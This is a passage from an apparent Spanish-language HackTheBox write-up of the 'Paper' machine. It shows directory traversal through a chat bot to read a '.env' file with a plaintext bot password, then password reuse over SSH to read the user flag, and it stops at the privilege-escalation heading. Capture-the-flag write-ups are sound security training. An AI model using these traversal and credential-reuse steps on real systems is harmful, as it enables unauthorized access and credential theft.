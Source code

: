 Conseguimos escapar y listar todo el contenido del directorio **`home`** del usuario bajo el que se encuentra el bot.
Al intentar leer el archivo **`user.txt`** nos dice que no tenemos permiso.

![File](/assets/images/hackthebox/machines/paper/file1.png)

Hay un directorio que me llama la atención, de nombre **`hubot`**, lo cual me hace pensar que ahí se aloja el código fuente o archivos relacionados. Tratemos de listarlo.

![List](/assets/images/hackthebox/machines/paper/list2.png)

Qué interesante, encontramos un archivo **`.env`** en el que por lo general se guardan TOKEN's o variables importantes. Leamos el archivo con el bot:

![File](/assets/images/hackthebox/machines/paper/file2.png)

```
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Epa! Tenemos las credenciales de conexión al chat del usuario **`recyclops`** (el bot). Anteriormente vimos que dicho usuario hacía mención a otro usuario de nombre **`Dwight`**.
Podemos probar a ver si hay reutilización de contraseñas para conectarnos por SSH como el usuario **`dwight`**:

```console
p3ntest1ng:~$ ssh dwight@office.paper
The authenticity of host 'office.paper (10.10.11.143)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'office.paper' (ECDSA) to the list of known hosts.
dwight@office.paper's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ ls
bot_restart.sh  hubot  pk.sh  sales  user.txt
[dwight@paper ~]$ cat user.txt
0baa09b7a49f6bc6950e5c32b0ea4b6f
[dwight@paper ~]$ 
```

Pues tenemos la flag del usuario así que echemos un vistazo para ver cómo podemos realizar la escalada de privilegios para conseguir acceso como root.

## Escalada de Privilegios
